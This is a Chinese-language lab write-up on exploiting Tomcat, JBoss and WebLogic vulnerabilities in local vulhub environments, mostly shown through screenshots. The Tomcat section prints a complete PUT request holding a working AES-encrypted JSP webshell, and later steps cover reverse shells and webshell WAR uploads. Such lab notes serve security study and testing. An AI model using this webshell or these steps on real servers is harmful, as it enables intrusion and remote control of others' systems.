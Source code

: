 
- [0x01 tomcat](#0x01-tomcat)
- [0x02 jboss](#0x02-jboss)
- [0x03 weblogic](#0x03-weblogic)

## 0x01 tomcat
**Tomcat PUT方法任意写文件漏洞（CVE-2017-12615）**

本漏洞由于tomcat配置readonly=false，导致我们可以通过构造请求包给服务器写文件，先搭建tomcat环境

![](..\img\中间件漏洞\2022-06-15-23-39-32.png)


bp构建请求数据包，写入webshell
```header
PUT /1.jsp/ HTTP/1.1
Host: 127.0.0.1:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%>
<%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%>
<%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));
new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
```
![](..\img\中间件漏洞\2022-06-16-00-10-44.png)


验证shell

![](..\img\中间件漏洞\2022-06-16-00-12-34.png)


## 0x02 jboss

**JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）**

搭建环境，访问http://127.0.0.1:8080/invoker/readonly，返回500状态页面，即证明存在反序列化漏洞

![](..\img\中间件漏洞\2022-06-16-01-04-25.png)


利用jexboss工具扫描反序列化漏洞

![](..\img\中间件漏洞\2022-06-16-01-12-33.png)


反弹shell到监听机

![](..\img\中间件漏洞\2022-06-16-01-13-12.png)


验证shell

![](..\img\中间件漏洞\2022-06-16-01-15-12.png)


**JBoss JMXInvokerServlet 反序列化漏洞**

搭建环境，访问http://127.0.0.1:8080/invoker/JMXInvokerServlet可以读取JMXInvokerServlet

![](..\img\中间件漏洞\2022-06-16-01-27-39.png)


利用jexboss工具扫描反序列化漏洞

![](..\img\中间件漏洞\2022-06-16-01-30-04.png)


反弹shell到监听机

![](..\img\中间件漏洞\2022-06-16-01-30-49.png)


验证shell

![](..\img\中间件漏洞\2022-06-16-01-31-30.png)


**jboss后台部署漏洞**

在JBoss主页点击Administrator Console进入管理员登录页面，登录admin/vulhub

![](..\img\中间件漏洞\2022-06-16-01-37-12.png)


点击Applications--Web Application(AWR)s--Add a new resource进入文件部署页面，此处有文件上传

![](..\img\中间件漏洞\2022-06-16-01-43-28.png)


上传含webshell的war包

![](..\img\中间件漏洞\2022-06-16-01-47-35.png)


验证shell

![](..\img\中间件漏洞\2022-06-16-01-49-51.png)

## 0x03 weblogic

**Weblogic 任意文件上传漏洞（CVE-2018-2894）**

环境启动后，访问http://127.0.0.1:7001/console进入后台登录页面，页面自动跳转到http://127.0.0.1:7001/console/login/LoginForm.jsp

![](..\img\中间件漏洞\2022-06-15-16-26-32.png)


在docker启动目录执行dockers-compose logs|findstr password查看日志中的管理员密码，管理员用户名为weblogic

![](..\img\中间件漏洞\2022-06-15-16-30-21.png)


进入后台页面后，在base_domain--高级勾选启用Web服务测试页

![](..\img\中间件漏洞\2022-06-15-16-40-04.png)


访问http://127.0.0.1:7001/ws_utc/config.do，设置Work Home Dir为/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css。访问这个目录不需要权限，方便我们getshell

![](..\img\中间件漏洞\2022-06-15-16-50-35.png)


点击安全--添加，上传jsp马，提交

![](..\img\中间件漏洞\2022-06-15-20-26-31.png)


抓包获取上传时间戳，木马位置为/ws_utc/css/config/keystore/[时间戳]_[文件名]

![](..\img\中间件漏洞\2022-06-15-20-28-14.png)


验证shell

![](..\img\中间件漏洞\2022-06-15-20-31-31.png)


**weblogic后台部署漏洞**

访问http://127.0.0.1:7001/console进入后台页面

![](..\img\中间件漏洞\2022-06-16-02-10-46.png)


同样在环境搭建目录执行docker-compose logs|findstr password获取后台密码

![](..\img\中间件漏洞\2022-06-16-02-09-47.png)


点击域结构--部署--安装进入文件上传页面

![](..\img\中间件漏洞\2022-06-16-02-19-20.png)


点击上载文件，在部署档案处传入含webshell的war包

![](..\img\中间件漏洞\2022-06-16-02-20-14.png)


上传后一直下一步到提示完成即可

![](..\img\中间件漏洞\2022-06-16-02-32-51.png)


验证shell

![](..\img\中间件漏洞\2022-06-16-02-34-22.png)


**Weblogic WLS Core Components 反序列化命令执行漏洞（CVE-2018-2628）**

搭建环境

![](..\img\中间件漏洞\2022-06-16-02-47-24.png)


利用WeblogicScan工具扫描测试

![](..\img\中间件漏洞\2022-06-16-03-13-24.png)


成功扫描漏洞

![](..\img\中间件漏洞\2022-06-16-03-15-35.png)


利用Weblogic漏洞扫描工具测试

![](..\img\中间件漏洞\2022-06-16-03-18-08.png)


利用weblogic_exploit-1.0-SNAPSHOT-all工具测试

![](..\img\中间件漏洞\2022-06-16-03-30-39.png)
